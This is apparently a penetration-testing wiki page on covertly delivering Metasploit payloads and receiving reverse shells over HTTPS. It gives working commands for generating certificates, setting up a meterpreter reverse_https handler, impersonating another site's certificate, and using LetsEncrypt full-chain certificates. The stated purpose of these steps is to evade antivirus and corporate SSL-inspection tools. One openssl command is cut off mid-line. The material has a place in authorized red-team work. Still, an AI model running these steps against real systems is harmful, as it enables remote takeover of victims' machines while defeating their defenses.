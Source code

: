 As can be seen above, other formats such as a vba-exe or vba-psh script can be generated and inserted into a file and therefore allowing for a more discrete method of payload delivery.



If you want to bypass some AV (Symantec) you need to use a different format to generate the self-signed certificate.

You can go two ways:

* Create your self-signed certificate
* Steal someone's certificate, and turn it into a self-signed [https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation Example]

Commands:

Self-Signed Generation:

```
openssl req -x509 -newkey rsa:2048 -nodes -keyout pentest.key -days 3650 -subj "/C
```


Below no longer works as you need the SubjectAltName field.
```
openssl req -x509 -nodes -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365
cat cert.pem key.pem > combined.pem
```

```
#In Metasploit while setting up a handler
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LPORT 443
set LHOST 192.168.1.100
set HandlerSSLCert /root/combined.pem
set exitonsession false
exploit -j -z
```

Using someone else's cert:

```
#Using Metasploit
use auxiliary/gather/impersonate_ssl
set RHOST www.google.com
run
```



If you are planning on using LetsEncrypt, make sure you are using the Full Chain Certificate, instead of just the Certificate. Some SSL Decryption toolsets (IronPort WSA Cisco) will not trust just the certificate, and since the root RA is not loaded, it won't trust the cert and just fail closed.

But using the Full Cert File (e.g., `/etc/letsencrypt/live/<INFRASTRUCTURE>/fullchain.pem`), this will allow the Decryption SSL to work and allow you to still get a shell back.

To create that certificate PEM file:

```
cat /etc/letsencrypt/live/<INFRASTRUCTURE>/fullchain.pem /etc/letsencrypt/live/<INFRASTRUCTURE>/privkey.pem > combined.pem

#metasploit> set handlersslcert /root/combined.pem
```
